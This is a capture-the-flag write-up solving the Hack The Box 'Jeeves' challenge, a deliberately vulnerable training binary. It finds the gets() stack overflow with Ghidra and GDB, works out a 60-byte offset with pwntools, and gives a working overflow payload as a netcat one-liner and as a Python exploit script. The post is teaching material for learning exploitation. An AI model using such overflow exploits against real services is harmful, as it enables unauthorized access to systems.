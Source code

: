 ```yaml
---
title:  "Jeeves (Easy)"
seo_title: "Introduction to Binary Exploitation with Hack The Box: Jeeves Pwn Challenge writeup"
date:   2023-09-08T12:30
categories: ['Binary-Exploitation','HackTheBox']
excerpt: Hack The Box Jeeves writeup for the first Pwn challenge in the Intro to Binary Exploitation track.
---
```


![](/assets/images/headers/Jeeves.png)

# Synopsis

Today we take on a simple binary exploitation challenge from Hack The Box. In this post we are going to solve the Jeeves Pwn challenge from the **Intro to Binary Exploitation** track.

## Running the program
We start off by running the program normally. We are given a prompt asking for our name.
```bash
$ ./jeeves 
Hello, good sir!
May I have your name? bytebl33d
Hello bytebl33d, hope you have a good day! 
```
The program subsequently prints a greeting message back to us. Based on this response alone, we can assume that our input is stored somewhere in a buffer.

## Examining the binary with Ghidra
Let's decompile the binary using Ghidra so that we can better understand its inner workings. After importing the binary we can analyze the `main` function:
```c
main(void){
  char input [44];
  int file;
  void *buffer;
  int check;
  
  check = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(input);
  printf("Hello %s, hope you have a good day!\n",input);
  if (check == 0x1337bab3) {
    buffer = malloc(0x100);
    file = open("flag.txt",0);
    read(file,buffer,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",buffer);
    close(file);
  }
  return 0;
}
```
The user input is stored inside the input buffer with a size of 44 bytes. We also see there is a `flag.txt` file that gets opened after the if-statement that verfifies if the `check` variable is equal to the value `0x1337bab3` (or in other words 'leetbabe'). However, this check is never going to succeed because the `check` variable is initialized in a different way. We therefore need to find out how to overwrite this variable on the stack. 

The assembly view in Ghidra shows this variable is given the hex value of `0xdeadc0d3` (since this is indeed just dead code).

![ghidra](/assets/images/binary-exploitation/ghidra.png)

## Examining the binary in GDB
Loading the binary into GDB and disassembling the `main` function we get the following output:
```as
$ gdb jeeves

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>: endbr64
   0x00000000000011ed <+4>: push   rbp
   0x00000000000011ee <+5>: mov    rbp,rsp
   0x00000000000011f1 <+8>: sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
```
Our task is to figure out how many bytes we have to overflow the buffer in order to overwrite the `check` variable. Lets's set a breakpoint right after the `gets` call and run the program (just enter some A's as our input):
```as
pwndbg> b *main+53
pwndbg> r

<SNIP>

*RBP  0x7fffffffdec0 ◂— 0x1
*RSP  0x7fffffffde80 ◂— 'AAAAAAAAAA'
*RIP  0x55555555521e (main+53) ◂— lea rax, [rbp - 0x40]
────────────────────────────────────[ DISASM / x86-64 / set emulate on ] ────────────────────────────────────────────────
 ► 0x55555555521e <main+53>     lea    rax, [rbp - 0x40]
   0x555555555222 <main+57>     mov    rsi, rax
   0x555555555225 <main+60>     lea    rdi, [rip + 0xe04]
   0x55555555522c <main+67>     mov    eax, 0
   0x555555555231 <main+72>     call   printf@plt              <printf@plt>
   0x555555555236 <main+77>     cmp    dword ptr [rbp - 4], 0x1337bab3
   0x55555555523d <main+84>     jne    main+191                <main+191>
   0x55555555523f <main+86>     mov    edi, 0x100
   0x555555555244 <main+91>     call   malloc@plt              <malloc@plt>
   0x555555555249 <main+96>     mov    qword ptr [rbp - 0x10], rax
   0x55555555524d <main+100>    mov    esi, 0
```
Looking at the RIP (Instruction Pointer) above, we can see that it is comparing `dword ptr [rbp - 4]` with `0x1337bab3`. Let's have a look at the value of `rbp-4` in GDB.
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0xdeadc0d3
```
To see what happens when we change this variable, we can try to change it using `pwndbg` and continue running the program. Pwndbg is just a handy GDB plug-in that makes debugging with GDB easier for reverse-engineering tasks.
```bash
pwndbg> set *0x7fffffffdebc = 0x1337bab3
pwndbg> x/x $rbp-4
0x7fffffffdebc: 0x1337bab3
pwndbg> c
Continuing.
Hello AAAAAAAAAA, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
[Inferior 1 (process 13162) exited normally]
```
Looking at the output we can see that if we are able to change the variable to `0x1337bab3`, we receive a small gift. This is probably the flag we are looking for.

## The Exploitation
Using python3 we can find the offset by generating a pattern and running the program with this input. To make our lifes a bit easier, we can do this with the `pwntools` package as follows:
```bash                                                                                            
pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We run the program again with the created pattern and inspect `rbp-4`:
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0x61616170      # this is paaa in ASCII
```
We see that the variable now gets overwritting with `paaa`. Finding the offset is as easy as just using the `cyclic_find` function from `pwntools`:
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
>>> cyclic_find('paaa')
>>> 60
```
So our final payload will be: `A*60 + 0x1337bab3`.

### Crafting our payload
Now we have all the information to craft our payload.
```python
from pwn import *

check = p64(0x1337bab3)
payload = b"A"*60 + check

print(payload)
```
Or we can run it directly in GDB to test our payload first:
```bash
pwndbg> r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

## Executing our payload on the target
Here we will show 2 ways of executing our payload. The first method is a manual approach, while the other is a more automated way using `pwntools`.

### Method 1 (manual)
```bash
nc <IP_ADDRESS> <PORT> <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

### Method 2 (pwntools)
```python
from pwn import *

target = process(b"nc")
target.sendline(b"<IP_ADDRESS> <PORT>")

payload = b"A"*60
payload += p64(0x1337bab3)

target.sendline(payload)

print(target.recvuntil(b"}"))
```
Running our exploit code:
```bash
$ python3 exploit.py
[+] Starting local process '/usr/bin/nc': pid 20136
b"Cmd line: Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3*****************!}"
[*] Process '/usr/bin/nc' stopped with exit code 0 (pid 20136)
```
After running our exploit, we indeed get the flag back. We have successfully completed our first pwn challenge in the Intro to Binary Exploitation track.
